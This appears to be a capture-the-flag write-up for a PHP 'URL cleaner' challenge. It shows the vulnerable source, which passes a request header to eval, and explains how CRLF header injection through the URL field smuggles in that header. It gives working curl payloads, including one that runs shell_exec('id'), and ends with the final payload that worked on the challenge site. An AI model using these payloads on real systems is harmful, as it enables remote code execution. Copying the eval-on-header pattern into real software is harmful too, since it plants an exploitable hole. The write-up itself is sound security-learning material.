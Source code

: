 # Clean url as a Service


![image](https://user-images.githubusercontent.com/31372554/164913784-f3c5e9b7-e7c1-48fa-be5e-1db086f0987f.png)

Upon visiting the site, we can see there is an input field which asks for an url. The placeholder is set to https://www.example.tld/cleanmepls?name=joe&age=13&address=very-very-very-long-string so let's try with a simple url such as:

https://google.com/?test=test



Upon clicking on the `clean` button , a POST request is sent to the `cleaner.php` endpoint and in the body of the request you can see our URL:

```
POST / HTTP/1.1
Host: 127.0.0.1:1337
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 45


url=https%3A%2F%2Fgoogle.com%2F%3Ftest%3Dtest
```


The server returns this output:

![image](https://user-images.githubusercontent.com/31372554/164913766-6885efbf-08a1-413a-b5d2-7b9e0e269a84.png)


```
There your cleaned url: google.com
Thank you For Using our Service!
```

OK, from this output it's clear that the application just takes an URL as an input and returns the host part as the output. Or is to so?


--------------------------


Let's dive deep into the source code to figure it out:
We were provided with two php files `index.php` and `cleaner.php`

`Cleaner.php` (section 1)
```php
<?php

if ($_SERVER["REMOTE_ADDR"] != "127.0.0.1"){

die("<img src='https://imgur.com/x7BCUsr.png'>");

}


echo "<br>There your cleaned url: ".$_POST['host'];
echo "<br>Thank you For Using our Service!";


function tryandeval($value){
                echo "<br>How many you visited us ";
                eval($value);
        }


foreach (getallheaders() as $name => $value) {
        error_log($value);
	if ($name == "X-Visited-Before"){ // [2]
		tryandeval($value);
	}}
?>

```

`index.php` (section 2)

```php

<?php
if($_SERVER['REQUEST_METHOD'] == "POST" and isset($_POST['url']))
    {
        clean_and_send($_POST['url']);
    }

	function clean_and_send($url){
		error_log("Cleaning url: ".$url);
			$uncleanedURL = $url; // should be not used anymore
			$values = parse_url($url);
			$host = explode('/',$values['host']);
			$query = $host[0];
			$data = array('host'=>$query);
			$cleanerurl = "http://127.0.0.1/cleaner.php";
   			$stream = file_get_contents($cleanerurl, true, stream_context_create(['http' => [ //[1]
			'method' => 'POST',
			'header' => "X-Original-URL: $uncleanedURL",
			'content' => http_build_query($data)
			]
			]));
    			echo $stream;
?>

```

The `index.php` code starts with a *if condition check* which basically checks for two things the `REQUEST_METHOD`  and the `url` parameter. If the request method is *POST* and in the request body there is `url` parameter.

The `clean_and_send` function is called and the url is directly passed as an *arguement* to this function.

In the function, the argument url is stored in the `$uncleanedURL` variable.

This array is then stored in the `$values` variable.

```php
php > print_r(parse_url("https://google.com/?test=test"));
Array
(
    [scheme] => https
    [host] => google.com
    [path] => /
    [query] => test=test
)
```

By executing the challenge code line by line, you can get a understanding of what the code does.

```php
php > $host = explode('/',$values['host']);
php > echo $host;
PHP Notice:  Array to string conversion in php shell code on line 1
Array
php > print_r($host);
Array
(
    [0] => google.com
)
```

In line `[1]` , using *file_get_contents*  a POST request to the `/cleaner.php`  is made along with one additional header `'header' => "X-Original-URL: $uncleanedURL"` , on the side note we have full control over `X-Original-URL` header value let's keep this in mind and check the `cleaner.php` code to understand how it handles the POST request.


On the very first line in `cleaner.php`, there is a condition to check whether the client's IP is equal to 127.0.0.1 or not.

There is one interesting function `tryandeval` which is only invoked if the POST request contains the `X-Visited-Before` header (the value of this header is passed as an arguement to tryandeval function) it then passes the header value to `eval`.

So now we have our goal clear of what we need to do, we have to find a way to include `X-Visited-Before` header in the POST request which is sent to the `cleaner.php` endpoint ([1])



As the cleaner.php endpoint was accessible by directly visiting the http://challengesite.xyz/cleaner.php , I thought if there's any way to bypass the `$_SERVER["REMOTE_ADDR"] != "127.0.0.1"` check we can easily add the required `X-Visited-Before` header and execute any command we want.

After reading some articles & stackoverflow posts, I found that it was the correct way of validating client's IP.So I then started looking at other part of the [1] line.

Remeber earlier I told to keep note of the `X-Original-URL` , as we have full control over it's value we can try including crlf characters to check if header injection is possible or not.

It was just assumption what would happen if I run the following code:

```php

$uncleanedURL = $_GET['uncleanedURL'];


function test($uncleanedURL){
      $cleanerurl = "https://en2celr7rewbul.m.pipedream.net";
      $data = "test";
      $stream = file_get_contents($cleanerurl, true, stream_context_create(['http' => [ 
        'method' => 'POST',
        'header' => "X-Original-URL: $uncleanedURL",
        'content' => http_build_query($data) ]
    ]));
}

test($uncleanedURL);
```
```bash
curl "http://127.0.0.1:1337/test.php?uncleanedURL=https://google.com/?test=test"
```

![chrome_3LXzVAMNyB](https://user-images.githubusercontent.com/31372554/164913802-1f44c24b-5316-49fb-9e40-267ba9b350f8.png)


Now let's try to add a new header using `%0AX-Hacked:shirley`

```bash
curl "http://127.0.0.1:1337/test.php?uncleanedURL=https://google.com/?test=test%0AX-Hacked:shirley"
```


![chrome_VO98hEuiO3](https://user-images.githubusercontent.com/31372554/164913805-3aa1a4b6-e595-4748-8a86-5315dfe045de.png)


We have successfully added a new header 😎


----------------------------------------------------------



Coming to back to the challenge code, let's try to input the following url: `https://google.com/?test=test%0AX-Visited-Before:1` 


![ubuntu_sv5JH76CN8](https://user-images.githubusercontent.com/31372554/164913824-7c24ce34-f48e-4f27-8917-075975278870.png)


The application didn't even returned any message , if we look at the above screenshot:

On the right hand side you can see that we have successfully added the `X-Visited-Before` header to the request , but it seems an error was triggered by the `eval` function.

eval function executes any given string as a php code, `shirley` was provided as a string to the eval function. As `shirley` string isn't a valid php code the error was triggered.

Let's this try something simple: `echo 1337;` (semicolon is necessary as in php every statement should end with a semicolon)

```bash
curl http://127.0.0.1:1337/ -d "url=https://google.com/%0aX-Visited-Before:echo 1337;" -X POST
```

We get the following response:

```html
<br>There your cleaned url: google.com<br>Thank you For Using our Service!<br>How many you visited us 1337
```

Bingoo ! We can also execute any system command such as `id`

```bash
curl http://127.0.0.1:1337/ -d "url=https://google.com/%0aX-Visited-Before:echo shell_exec('id');" -X POST 
```

```
<br>There your cleaned url: google.com<br>Thank you For Using our Service!<br>How many you visited us uid=1000(shirley) gid=1000(shirley) groups=1000(shirley),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo)
```



In the end when I actually used the same payload on the challenge site, it didn't worked for some reasons which I wasn't aware. I tried some payload variations such as `%0A%0Dheader:value` but still couldn't figured it out.
As I was making no progress , I decided to contact the author of the challenge and explained everything to him. Turns out the problem was that the challenge site was running on Apache webserver and I was using the inbuilt php webserver.

The final working payload which also worked on the challenge site was: `https://google.com/%0D%0AX-Visited-Before:echo+1;`

